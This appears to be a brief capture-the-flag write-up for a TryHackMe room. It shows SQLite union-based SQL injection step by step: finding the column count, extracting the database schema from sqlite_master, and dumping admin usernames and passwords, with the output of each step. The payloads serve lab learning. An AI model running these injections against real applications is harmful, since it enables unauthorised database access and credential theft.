

Ref:- 
1. https://tryhackme.com/r/room/lightroom
2. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
### Union operation

```sql
Please enter your username: admin
Username not found.
Please enter your username: admin' UnIoN SeLeCt 1'
Password: 1
Please enter your username: admin' UnIoN SeLeCt 1,2'
Error: SELECTs to the left and right of UNION do not have the same number of result columns
```

### Extract Database Structure

```sql
 a' UnIoN SeLeCt group_concat(sql) from sqlite_master'
```

or 

```sql
 a' UnIoN SeLeCt group_concat(sql) from sqlite_schema'
```

output :-
```
		Password:  CREATE TABLE usertable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER
                   ),
                   CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER
                   )
```

### Extract DB info

```sql
a' UnIoN SeLeCt GROUP_CONCAT('|' || username || ':' || password || '|') FROM admintable'
```

